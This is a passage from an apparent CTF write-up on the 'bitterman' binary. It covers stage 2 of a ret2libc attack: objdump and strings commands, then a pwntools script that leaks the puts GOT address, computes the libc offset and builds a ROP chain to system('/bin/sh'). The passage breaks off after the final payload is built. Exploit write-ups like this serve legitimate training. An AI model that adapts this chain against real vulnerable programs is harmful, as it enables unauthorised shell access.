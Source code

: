 Great, we now have the leaked address, we need to find the offset which will be constant for every address. So, let's start carfting our **ret2libc** attack.

# Stage 2: Final Exploit using ret2libc

So, from the previous exploit we get the leaked address. Now we need to find the offset and execute the `/bin/sh` to spawn a shell.

First off, we need `main` address because the leak address will be changed everytime so we need to get main address so we can use the leaked address to get the offset for current process.
Using `objdump -D bitterman | grep main`, we will grab the address of the bitteman's `main`.

```asm
-snip--
00000000004006ec <main>:
--snip--
```
Nice, we have the main address. Let's proceed further for crafting the exploit. 

> Warning: Before we proceeds, we need the `libc.so.6` of your machine. Copy it with `cp //lib/x86_64-linux-gnu/libc.so.6 .` , it willcopy the`libc.so.6` to the working directory.

Now, we will automate the finding of addresses of `put` and `system`  with pwntools but beforehand we need `/bin/sh` address as well. To find that, let's use strings `strings -a -t x libc.so.6 | grep /bin/sh` , we will get the address of `/bin/sh` from the `libc.so.6`.

Let's make the exploit:-


```asm
#!/usr/bin/python

from pwn import * # importing fuctions 
#context(terminal=['gnome-terminal','new-window']) Debug purpose
#context.log_level = 'DEBUG' # Debug purpose
p = process('./bitterman') # using bitterman elf # processing the target elf
#p = gdb.debug('./bitterman','b main') # breakpoint setup at main via gdb
libc = ELF('libc.so.6')
plt_put = p64(0x400520) # PLT put address 
got_put = p64(0x600c50) # GOT put address
pop_rdi = p64(0x400853) # pop_rdi address
plt_main = p64(0x4006ec)

padding = "A"*152 # Because we know the offset from earlier

payload = padding +  pop_rdi + got_put + plt_put + plt_main

p.recvuntil("name?") # recieve data until we recieve the string
p.sendline("robin")  # send data 
p.recvuntil("message:") # recieve data until we recieve the string
p.sendline("1024") # send data 
p.recvuntil("text:") # recieve data until we recieve the string
p.sendline(payload) # send data
p.recvuntil("Thanks!") # recieve data until we recieve the string
leaked_puts = p.recv()[:8].strip().ljust(8,"\x00") # recieving the string until we get leaked address and padding with null bytes to length of 8
log.success("Leaked puts: %s" %(leaked_puts)) # Prints the leaked addresss
leaked_puts = u64(leaked_puts) # converts to 64-bit friendly integer


offset = leaked_puts - libc.symbols['puts'] # Ths
sys = p64(offset + libc.symbols['system'])
sh = p64(offset + 0x1b3e9a)

payload = padding+ p64(0x0000000000400509) + pop_rdi + sh + sys # remove p64(0x0000000000400509) if you're not using ubuntu
p.sendline("robin")
```